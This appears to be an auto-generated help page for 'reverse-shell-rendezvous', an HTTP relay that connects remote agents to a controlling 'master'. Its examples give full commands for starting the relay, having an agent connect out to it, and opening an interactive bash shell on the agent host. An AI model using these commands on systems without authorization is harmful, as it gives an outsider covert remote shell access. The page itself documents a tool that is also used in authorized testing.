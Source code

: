 ## reverse-shell-rendezvous

An http server listening for agents and masters

### Synopsis

The rendezvous is an http server listening for agents and masters.	It can run behind a reverse-proxy and that reverse-proxy could to SSL offloading.

```
reverse-shell-rendezvous [flags]
```

### Examples

```
Start the rendezvous and the agent:
# On the rendezvous (1.2.3.4)
$ rendezvous -P 7777

# On the agent (3.4.5.6)
$ agent websocket -U http://1.2.3.4:7777

Open a shell and send some commands
# List the agents
$ ./master list-agents -U http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ master create -U http://1.2.3.4:7777 3.4.5.6:65000
Attaching to admiring_meitn
Connected to admiring_meitn
bash-3.2$

```

### Options

```
  -h, --help          help for reverse-shell-rendezvous
      --port int32    remote port to connect to (default 8080)
  -v, --verbose int   Be verbose on log output
```

###### Auto generated by spf13/cobra on 1-May-2018
